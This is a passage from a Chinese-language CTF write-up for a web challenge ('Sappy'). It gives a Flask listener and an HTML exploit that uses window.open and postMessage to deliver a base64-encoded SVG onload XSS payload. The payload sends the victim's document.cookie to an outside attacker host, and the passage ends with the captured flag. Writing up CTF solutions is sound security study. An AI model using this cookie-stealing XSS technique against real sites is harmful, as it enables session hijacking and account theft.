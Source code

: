 最後的 `#` 則是讓後面的 `/sap/<page id>` 變成 hash tag 來忽略掉。

這樣就能成功 xss 了。

但是還有一個問題是因為 `iframe` 內的網站是不會帶 cookie 的，所以要找別的方法載入網站並控制，而這邊選擇用 `window.open` 來解決。

### exploit

```python
from flask import Flask,request,redirect,Response,render_template
import json

app = Flask(__name__)

@app.route('/',methods=['GET'])
def root():
    return render_template('index.html')

@app.route('/<path:data>',methods=['GET'])
def hack(data=''):
    return "hack"

if __name__ == "__main__":
    app.run(host="::", port=20000)
```

```html
<script>
    const url = 'https://sappy-web.2024.ctfcompetition.com'
    win = window.open(`${url}/sap.html`);
    function hack() {
        win.postMessage(JSON.stringify({
                method: "initialize",
                host: "data://sappy-web.2024.ctfcompetition.com/;base64,eyJodG1sIjoiPHN2Zz48c3ZnL29ubG9hZD0nd2luZG93LmxvY2F0aW9uPVwiaHR0cHM6Ly92cG4uY2h1bW15ZG5zLmNvbToyMDAwMC94c3NcIitkb2N1bWVudC5jb29raWUnPiJ9Cg==#",
        }), url);
        win.postMessage(JSON.stringify({
            method: "render",
            page: "xss",
        }), url);
        loadpage();
    }
    setTimeout(hack, "1000");
</script>
```

### Flag

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/4fd1f3cf-3790-4762-99d9-39a45298192a)

![image](https://github.com/Jimmy01240397/CTF-writeup/assets/57281249/f87e4ed7-8eab-4618-8e48-df0fa4731c66)

`CTF{parsing_urls_is_always_super_tricky}`

## 戰隊其他人的 write up

待補




